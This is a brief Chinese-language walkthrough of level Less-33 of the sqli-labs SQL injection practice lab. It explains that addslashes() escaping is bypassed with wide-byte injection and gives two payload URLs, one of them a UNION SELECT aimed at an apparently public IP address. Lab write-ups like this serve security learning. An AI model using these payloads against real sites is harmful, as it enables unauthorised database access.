

# Less-33
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
通过源码可得知： 在32关中使用的是自定义的过滤，本关中使用的是php中的 addslashes()函数
其作用:addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。(参考链接：https://www.w3school.com.cn/php/func_string_addslashes.asp)
法1： 直接使用宽字节的方法
http://127.0.0.1/sqli/Less-33/?id=1%df’--+
法二：自定义闭合
http://121.199.30.46/Less-33/?id=-1%aa%5c%27 union select 1,2,3--+
其实和less32关基本相同。